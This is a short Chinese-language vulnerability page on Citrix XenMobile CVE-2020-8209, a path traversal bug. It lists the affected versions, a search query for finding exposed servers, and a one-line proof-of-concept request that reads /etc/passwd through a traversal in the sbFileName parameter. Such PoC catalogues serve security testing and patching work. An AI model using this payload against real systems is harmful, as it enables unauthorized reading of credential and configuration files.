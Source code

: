 # Citrix XenMobile 任意文件读取 CVE-2020-8209

## 漏洞描述

XenMobile是Citrix开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。 CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件

## 影响版本

<a-checkbox checked>RP2之前的XenMobile服务器10.12</a-checkbox></br>

<a-checkbox checked>RP4之前的XenMobile服务器10.11</a-checkbox></br>

<a-checkbox checked>RP6之前的XenMobile服务器10.1010.9</a-checkbox></br>

<a-checkbox checked>RP5之前的XenMobile服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="XenMobile"</a-checkbox></br>

## 漏洞复现

验证POC

```
/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd
```

![img](../../../.vuepress/public/img/xen-1.png)